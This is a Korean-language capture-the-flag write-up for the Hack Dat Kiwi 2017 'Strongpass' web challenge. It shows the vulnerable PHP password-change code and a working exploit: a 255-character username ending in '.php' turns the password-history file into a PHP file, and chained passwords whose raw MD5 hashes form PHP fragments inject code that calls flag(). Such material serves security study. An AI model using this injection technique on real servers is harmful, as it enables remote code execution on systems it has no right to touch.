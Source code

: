 # [WEB] Hack Dat Kiwi CTF 2017 - Strongpass

# Description

>   문제 페이지 닫힘

# Analysis

해당 문제는 소스가 주어졌다.

기능은 크게 4가지이며 회원 가입, 로그인, 로그아웃, 패스워드 변경이다.

해당 기능은 `user.php`에 정의되어 있다.

4가지의 기능 중, 로그인이나 로그아웃에서는 취약점이 발생하지 않을 것 같았고, 패스워드 변경에서는 취약점에 발생하게 좋게 생겼다.

패스워드 변경 함수의 소스를 보자

```php
function changepass($oldpass,$newpass)
{
	if (!isset($_SESSION['login'])) return false;
	$userid=$_SESSION['login']['id'];
	if (strlen($newpass)<8) return false;
	if (!sql("select * from users where id=? and password=?",$userid,md5($oldpass)))
		return false;
	if ($newpass===$oldpass) return false;
	function get_password_history()
	{
		$file=password_history_file();
		if (!file_exists($file))
			return [];
		else
			return explode(PHP_EOL,file_get_contents($file)); 
	}
	function password_history_file()
	{
		$username=$_SESSION['login']['username'];
		return realpath(__DIR__."/history")."/".substr("{$username}.pss",0,255);//filename length limit
	}
	//check if password not used before
	$hash=hex2bin(md5($newpass));
	$pass_history=get_password_history();
	foreach ($pass_history as $one_of_old_passes)
		if ($hash===$one_of_old_passes)
			return false;
	array_unshift($pass_history, $hash);
	file_put_contents(password_history_file(), implode(PHP_EOL,$pass_history));
	return sql("update users set password=? where id=?",md5($newpass),$userid);
}
```

우선 변경할 패스워드가 8자리 이상이고, 이전에 사용하지 않은 패스워드여야 변경이 된다.

변경했던 패스워드 내역은 ./history/유저네임.pss 안에 패스워드를 md5 해쉬한 값을 raw값으로 저장한다.

취약점은 이 부분에서 발생한다.

또한 config.php에 flag()함수를 호출하면 flag를 리턴해준다.

# Exploit

1. php command injection upload using changepass

## 1. php command injection using changepass

회원 가입할 때 아이디의 길이를 제한하지 않기 때문에 아이디를 255자보다 길게 가입이 가능하다.

`username=11111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111.php`

아이디를 길게하면 패스워드 변경할 때 저장되는 파일이름을 .php로 저장하여 php를 실행할 수 있게 된다.

`/history/11111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111.php`

우리가 플래그를 얻기위해 php에 저장할 내용은 다음과 같다.

```php+html
<?
	$a=flag;
	$a();
?>
```

이제 md5의 raw값으로 php코드를 만들기 위해 다음 문자열로 시작하는 md5값을 구해보자.

1. \<?# : !wo352rgxkf8
2. $a# : G14$W41KER
3. =# : TCCU6IDENTTFD
4. f.# : Bvsycr9n9iwohnja
5. l.# : NIKF0RIDI5
6. a.# : 86dpqerat
7. g;# : dxvoowxIqS4E$
8. $a# : crs3t4bkedkwstf
9. ()# : HAGO580WBYKDLTIVP
10. ;# : Kfmrwgbmncahe
11. ?> : pb5wd26lqed4

변경한 패스워드는 파일에 저장되므로, 위 md5값이 나오는 패스워드를 `?>`부터 역순으로 변경한다.

그러면 최종적으로 아래와 같이 완성된다.

```php+HTML
<?#
  $a#
  =#
  f.#
  l.#
  a.#
  g;#
  $a#
  ()#
  ;#
?>
```

이제 패스워드가 저장된 파일인 `111...1.php`에 접속하면 flag를 얻을 수 있다.



